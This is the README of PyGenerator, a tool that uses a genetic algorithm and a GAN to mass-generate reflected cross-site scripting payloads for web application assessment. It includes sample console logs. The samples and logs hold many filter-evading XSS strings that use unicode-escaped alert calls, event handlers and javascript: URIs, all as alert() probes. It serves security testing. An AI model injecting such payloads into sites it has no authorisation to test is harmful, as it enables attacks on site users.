

# PyGenerator
**Fully automatically generate numerous injection codes for web application assessment.**

---
PyGenerator can fully automatically generate numerous injection codes for detecting web app vulnerabilities.  
Current PyGenerator's version is beta. Therefore, it can generate only injection codes of reflected Cross Site Scripting.  

Following codes were examples of injection codes automatically generated by PyGenerator.  
```
<script>al¥u0065rt();</script></tr><th/
<iframe/onload=alert();>size=<command
<video><source onerror=javascript:alert();>kind=
<svg/<canvas/<select/onload=confirm(1);>
<object/src=x onload=alert();¥n<script type="text/javascript">
```

   

Please refer to this [blog](https://www.mbsd.jp/blog/20170921.html) for detail explanation of some of this tool.  

## Processing flow
PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

 1. Generation of injection codes using GA.
 2. Augment injection codes using GAN.

#### Step.1 Generation of injection codes using GA.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)).  
Gene list is minimum components of HTML and JavaScript.  
ex) , etc.  

And, you execute `ga_main.py` as the following.  

```
Generator> python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

...snip...

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]

...snip...
```

In this result, a few injection codes are generated by GA.  
Injection codes are represented using combination of gene numbers (5 dimensional vector).  
ex) <149, 2, 180, 206, 164>,  

#### Step.2 Augment injection codes using GAN.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv)) and the train data generated by GA (ex. [train data](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/signature/xss_list.csv)).  

And, you execute `gan_main.py` as the following.  

```
Generator>python gan_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

(14176L, 'train samples')
('Number of batches:', 443)
epoch: 0, batch: 0, g_loss: 0.704642, d_loss: 0.711084
[ 115.  118.  103.  112.  100.] : </label></meter></track></keygen></font>
[ 124.   99.  127.  106.  101.] : </progress><font/</select></button><track 
[ 112.   91.  107.  106.   90.] : </keygen></ins><fieldset </button><ins/
[ 115.  102.  142.   78.  125.] : </label><track/type="text/x-scriptlet" <meta/<select 
[ 121.  106.  107.  111.   95.] : </output></button><fieldset <keygen/<basefont 

...snip...

epoch: 79, batch: 117, g_loss: 2.015308, d_loss: 0.561763
[   0.  182.    1.    5.   21.] : <script>onerror=\u0061lert();</script><isindex/<iframe/
[   0.  191.    1.    3.   14.] : <script>onload=alert();</script><video><source/onmouseover=alert();</script><video><source/<option/
[   0.  181.    1.    3.   22.] : <script>onerror=javascript:alert();</script><video><source/</iframe>
[   0.  183.    2.    5.   28.] : <script>onerror=al\u0065rt();<video><source <isindex/<svg/

...snip...
```

In this result, numerous injection codes are generated by GAN.  

If you change the content of the gene list, you may be able to generate various injection codes!!  
Enjoy!!  

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3
* numpy 1.13.1
* Keras 1.1.1

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Contact us

Isao Takaesu  
takaesu235@gmail.com  
[https://twitter.com/bbr_bbq](https://twitter.com/bbr_bbq)
